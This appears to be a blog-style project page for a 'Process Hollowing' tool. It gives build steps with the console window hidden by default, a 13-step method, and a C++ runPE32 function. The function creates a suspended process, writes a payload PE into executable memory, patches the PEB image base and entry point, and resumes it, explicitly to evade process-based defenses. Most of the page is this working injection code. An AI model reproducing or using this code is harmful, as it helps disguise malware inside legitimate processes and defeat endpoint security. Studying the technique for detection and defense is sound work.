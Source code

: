 ```yaml
---
layout: post
title:  "Process Hollowing"
author: Aaron Ti
date:   2020-08-06
category: Exploits
abstract: Injection of code into suspended and hollowed processes in order to evade process-based defenses
website: https://github.com/mcdulltii/ProcessHollowing
---
```


## Building

```
> cmake .
```

To show(1)/hide(2) console window when running executable:

```
- Properties
  - Linker
    - System
      - SubSystem: 
	1. Console (/SUBSYSTEM:CONSOLE)
	2. Windows (/SUBSYSTEM:WINDOWS)
    - Advanced
      - Entry Point
	1. (BLANK)
	2. mainCRTStartup
```

Default: hidden

## Methodology

1. Create and suspend target process
2. Get thread context of target process
3. Get image base of target process
4. Unmap target process memory space (Optional)
5. Allocate temporary memory space for custom payload
6. Change image base for symbolic imports
7. Store payload in allocated temporary memory space
8. Ensure image base of process is the same
9. Overwrite target process memory space with payload
10. Free allocated temporary memory space
11. Overwrite image base in headers
12. Set new Entrypoint
13. Resume target process

```Cpp
/*
runPE32:
    targetPath - application where we want to inject
    payload - buffer with raw image of PE that we want to inject
    payload_size - size of the above

    desiredBase - address where we want to map the payload in the target memory; NULL if we don't care. 
        This address will be ignored if the payload has no relocations table, because then it must be mapped to it's original ImageBase.
    unmap_target - do we want to unmap the target? (we are not forced to do it if it doesn't disturb our chosen base)
*/
bool runPE32(LPWSTR targetPath, BYTE* payload, SIZE_T payload_size, ULONGLONG desiredBase = NULL, bool unmap_target = false)
{
    load_ntdll_functions();

    //Load payload:
    IMAGE_NT_HEADERS32* payload_nt_hdr32 = get_nt_hrds32(payload);
    const ULONGLONG oldImageBase = payload_nt_hdr32->OptionalHeader.ImageBase;
    SIZE_T payloadImageSize = payload_nt_hdr32->OptionalHeader.SizeOfImage;

    //create target process:
    create_new_process1(targetPath, pi);

    //get initial context of the target:
    memset(&context, 0, sizeof(WOW64_CONTEXT));
    context.ContextFlags = CONTEXT_INTEGER;
    Wow64GetThreadContext(pi.hThread, &context);

    //get image base of the target:
    DWORD PEB_addr = context.Ebx;
    ReadProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &targetImageBase, sizeof(DWORD), NULL);

    //try to allocate space that will be the most suitable for the payload:
    LPVOID remoteAddress = VirtualAllocEx(pi.hProcess, (LPVOID)desiredBase, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //change the image base saved in headers - this is very important for loading imports:
    payload_nt_hdr32->OptionalHeader.ImageBase = static_cast<DWORD>((ULONGLONG)remoteAddress);

    //Prepare the payload image in the local memory, then copy it into the space reserved in the target process
    LPVOID localCopyAddress = VirtualAlloc(NULL, payloadImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    copy_pe_to_virtual_l(payload, payload_size, localCopyAddress);

    //if the base address of the payload changed, we need to apply relocations:
    if ((ULONGLONG)remoteAddress != oldImageBase) {
        apply_relocations((ULONGLONG)remoteAddress, oldImageBase, localCopyAddress);
    }

    SIZE_T written = 0;
    // paste the local copy of the prepared image into the reserved space inside the remote process:
    WriteProcessMemory(pi.hProcess, remoteAddress, localCopyAddress, payloadImageSize, &written);

    //free the localy allocated copy
    VirtualFree(localCopyAddress, payloadImageSize, MEM_FREE);

    //overwrite ImageBase stored in PEB
    DWORD remoteAddr32b = static_cast<DWORD>((ULONGLONG)remoteAddress);
    WriteProcessMemory(pi.hProcess, LPVOID(PEB_addr + 8), &remoteAddr32b, sizeof(DWORD), &written);

    //overwrite context: set new Entry Point
    DWORD newEP = static_cast<DWORD>((ULONGLONG)remoteAddress + payload_nt_hdr32->OptionalHeader.AddressOfEntryPoint);
    context.Eax = newEP;
    Wow64SetThreadContext(pi.hThread, &context);

    //start the injected:
    printf("--\n");
    ResumeThread(pi.hThread);
    return true;
}
```

## Reference

- [RunPE](https://github.com/hasherezade/demos/tree/master/run_pe)

- [C#-RunPE](https://github.com/NYAN-x-CAT/CSharp-RunPE)
